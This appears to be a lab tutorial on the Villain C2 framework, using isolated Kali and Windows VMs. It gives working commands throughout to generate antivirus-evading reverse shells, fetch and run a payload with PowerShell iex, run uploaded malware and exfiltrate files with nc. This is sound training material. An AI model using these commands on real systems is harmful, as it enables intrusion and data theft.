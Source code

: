 # Simple Villain Framework Lab Guide

A step-by-step lab using **Kali Linux** (attacker) and **Windows 10** (victim) in VirtualBox, from payload gen to file transfers.

---

## 1. VirtualBox VM & Networking Setup

1. **Create VMs** in VirtualBox:

   * **Kali Linux**
   * **Windows 10**
2. **Set both adapters** to an **Internal Network** (or Host-Only) named `LabNet`.
3. **Assign static IPs** on the same `/24` subnet:

   * **Kali** (terminal):

     ```bash
     sudo ip addr add 192.168.56.10/24 dev eth0
     sudo ip link set eth0 up
     ```
   * **Windows 10** (Control Panel → Network Adapter → IPv4 settings):

     ```text
     IP address:    192.168.56.20
     Subnet mask:   255.255.255.0
     Gateway/DNS:   (leave blank)
     ```
4. **Verify connectivity**:

   ```bash
   # On Kali
   ping 192.168.56.20
   ```

   You should see replies.

---

## 2. Prepare Kali Attacker

1. **Update & upgrade**:

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Clone Villain**:

   ```bash
   git clone https://github.com/keralahacker/Villain.git
   cd Villain
   ```

   > If GitHub is blocked (e.g. college Wi‑Fi), use a VPN or your phone’s hotspot.
3. **(Optional) Install Python deps**:

   ```bash
   pip install -r requirements.txt
   ```

   If it fails, skip to next step.
4. **Start Villain**:

   ```bash
   python villain.py
   ```

   You’ll see the `villain>` prompt.

---

## 3. Build & Deliver Your Payload

### 3.1 Generate the reverse shell

```
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP_or_interface> [encode|obfuscate]
```

| Element       | Meaning                      | Example                   |
| ------------- | ---------------------------- | ------------------------- |
| `OS`          | Target OS family             | `windows`                 |
| `handler`     | Connection type              | `reverse_tcp` (stable)    |
| `template`    | Payload script               | `powershell`              |
| `lhost`       | Your Kali IP or interface    | `192.168.56.10` or `eth0` |
| `[encode]`    | Simple Base64-style encoding | optional (helps evade AV) |
| `[obfuscate]` | String-twisting for stealth  | optional                  |

**Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This writes `payload.ps1` for the Windows VM.

### 3.2 Host & run the payload

1. **On Kali**, serve it over HTTP:

   ```bash
   cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
   cd ~
   python3 -m http.server 8000
   ```
2. **On Windows 10** (PowerShell as Admin):

   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
   ```

   This runs the reverse shell back to Kali.

---

## 4. Catch & Use Your Shell

1. **List sessions**:

   ```bash
   villain> sessions
   ```
2. **Enter the shell**:

   ```bash
   villain> shell <SESSION_ID>
   ```

   You get a `PS C:\>` prompt. Use `exit` or Ctrl+C to return.

---

## 5. Uploading Files to the Victim

```
villain> upload <local_path_on_kali> <remote_path_on_windows>
```

* **Example:**

  ```bash
  villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
  ```
* Then inside your shell:

  ```powershell
  PS C:\> & 'C:\Users\Public\malware.exe'
  ```

---

## 6. Downloading Files from the Victim

Villain has no built-in “download,” but you can exfiltrate:

1. **On Kali**, listen:

   ```bash
   nc -lvp 9001 > secret.txt
   ```
2. **In Windows shell:**

   ```powershell
   PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
   ```

Alternatively, spin up an HTTP server on Windows:

```powershell
PS C:\Users\Public> python3 -m http.server 8000
```

Then on Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7. Cleaning Up & Tips

* **flee**: Exit without killing sessions:

  ```bash
  villain> flee
  ```
* **purge**: Wipe saved implant metadata:

  ```bash
  villain> purge
  ```

**Pro Tips:**

* Verify your **lhost** and subnet before generating.
* Use `backdoors` to list re-usable payloads.
* Keep Kali’s firewall off on the lab network.

---

## 8. Broadcast Messages with `#`

You can send a chat message to all connected sibling servers by prefixing with `#`:

```bash
villain> # Hey team, switch to backup C2 channel
```

---

That’s the full lab: network setup, payload gen, shell, file IO, and messaging. Enjoy your ethical testing!
